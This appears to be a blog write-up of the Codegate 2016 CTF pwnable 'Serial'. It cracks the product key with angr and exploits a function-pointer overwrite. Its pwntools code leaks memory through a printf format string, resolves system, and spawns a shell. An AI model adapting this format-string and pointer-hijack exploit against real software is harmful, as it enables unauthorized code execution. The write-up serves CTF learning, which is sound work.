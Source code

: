 ```yaml
---
layout: post
title: Codegate Quals 2016 Serial
comments: true
category: ctf
tags: ctf, codegate, reversing, pwnable
---
```


This is a write-up of the challenge Serial from the Codegate qualification round 2016.

# The challenge

Serial is a 64bit x86 linux pwnable.

# Reversing

When the program is run, we got prompted for a product key:

```bash
$ ./serial
input product key:
```

After a short look at the binary we found that the check function was at `0x400ccb`,
and that it accepts 32 bytes of input which it somehow checks.
But after a first look at how the function worked we decided that is was simple but that it would be boring to reverse, and that it would take some time to write a keygen by hand.

So we decided on using [Angr](https://github.com/angr/angr), and so I wrote this script to crack it:

{% gist e6eac0e0a36be14096c3 %}

When we run this script it gives us the product key(after a short time):

```bash
$ python gen_serial.py
Serial is: '615066814080'
```

Giving this as input the program we finally get to the menu:

```bash
$ ./serial
input product key: 615066814080
Correct!
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >>
```

## The Bug

The program starts by allocating 10 elements of size 0x20 using `calloc`,
which we can then manipulate by the commands add, remove or dump.

The structure of these elements looks like:

```c
struct elem {
    char note[24];
    void *dump_func_pointer;
};
```

But the add command allows us to overwrite the function pointer,
and the dump command the just calls this pointer with a reference to the element as an argument.

# Exploitation

Luckily we have`printf` in the binary, so we can use the bug to call printf like

```c
printf("We can insert a nice format string here");
```

Thus we are able to read and write memory as we like, for example:

```python
from pwn import *

e = ELF("./serial")
r = process("./serial")

r.recvuntil("input product key:")
r.sendline("615066814080")

@MemLeak
def leak(addr):
    r.recvuntil("choice >> ")
    r.sendline("1")
    r.sendline("BB%13$sCC".ljust(24) + p64(e.plt["printf"]))
    # This is placed somewhere on the stack.
    r.sendline("3AAAAAAA"+p64(addr))
    # remember to remove the element, we only have 10.
    r.sendline("2\n0")
    r.recvuntil("BB")

    data = r.recvuntil("CC")[:-2] + "\x00"

    r.recvuntil("choice >> ")
    return data

# Magic from pwntools, which does pointer chasing and hashtable
# lookups to find stuff in memory. You should check it out.
d = DynELF(leak, elf = e)
system = d.lookup("system", "libc.so")
print "This is the address of 'system' in libc.so:", hex(system)
```

And it works:

```bash
$ python doit_serial.py
[*] '/home/user/serial'
    Arch:          amd64-64-little
    RELRO:         Partial RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[+] Starting program './serial': Done
[+] Loading from '/home/user/serial': 0x7f739e8e61a8
[+] Resolving 'system' in 'libc.so': 0x7f739e8e61a8
This is the address of 'system' in libc.so: 0x7f739e35a490
```

And now we simply need to use `system` as our dumper function and call it the right way:

```python
r.recvuntil("choice >> ")
r.sendline("1")
r.sendline("sh;".ljust(24) + p64(system))
r.sendline("3")

# lol, have a shell
r.clean()
r.interactive()
```

## Final exploit

{% gist 4701e02ad015f9d1935c %}


